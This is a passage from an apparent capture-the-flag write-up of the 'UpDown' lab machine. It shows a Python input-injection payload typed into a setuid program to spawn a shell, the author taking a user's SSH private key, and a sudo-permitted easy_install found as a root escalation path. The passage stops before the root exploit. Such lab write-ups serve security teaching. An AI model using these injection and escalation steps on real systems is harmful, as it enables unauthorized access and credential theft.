 ```
    raise MissingSchema(error)
requests.exceptions.MissingSchema: Invalid URL '0': No scheme supplied. Perhaps you meant http://0?
```
So I’ll switch out id for bash:
```
ww-data@updown:/home/developer/dev$ ./siteisup
./siteisup
Welcome to 'siteisup.htb' application

Enter URL here:__import__('os').system('bash')
__import__('os').system('bash')
developer@updown:/home/developer/dev$ 
 ```
Then we can check the id_rsa file of `developer` and then we can use it to ssh to developer.

3, shell as root
By check `sudo -l`
```
developer@updown:~$ sudo -l
Matching Defaults entries for developer on localhost:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User developer may run the following commands on localhost:
    (ALL) NOPASSWD: /usr/local/bin/easy_install
```
Then I would try it 
```
developer@updown:~$ sudo /usr/local/bin/easy_install
error: No urls, filenames, or requirements specified (see --help)
developer@updown:~$ sudo /usr/local/bin/easy_install --help

Global options:
  --verbose (-v)  run verbosely (default)
  --quiet (-q)    run quietly (turns verbosity off)
  --dry-run (-n)  don't actually do anything
  --help (-h)     show detailed help message
  --no-user-cfg   ignore pydistutils.cfg in your home directory

Options for 'easy_install' command:
  --prefix                   installation prefix
  --zip-ok (-z)              install package as a zipfile
  --multi-version (-m)       make apps have to require() a version
  --upgrade (-U)             force upgrade (searches PyPI for latest versions)
  --install-dir (-d)         install package to DIR
  --script-dir (-s)          install scripts to DIR
  --exclude-scripts (-x)     Don't install scripts
  --always-copy (-a)         Copy all needed packages to install dir
  --index-url (-i)           base URL of Python Package Index
  --find-links (-f)          additional URL(s) to search for packages
  --build-directory (-b)     download/extract/build in DIR; keep the results
  --optimize (-O)            also compile with optimization: -O1 for "python -
                             O", -O2 for "python -OO", and -O0 to disable
                             [default: -O0]
  --record                   filename in which to record list of installed
                             files
  --always-unzip (-Z)        don't install as a zipfile, no matter what
  --site-dirs (-S)           list of directories where .pth files work
  --editable (-e)            Install specified packages in editable form
  --no-deps (-N)             don't install dependencies
  --allow-hosts (-H)         pattern(s) that hostnames must match
  --local-snapshots-ok (-l)  allow building eggs from local checkouts
  --version                  print version information and exit
  --no-find-links            Don't load find-links defined in packages being
```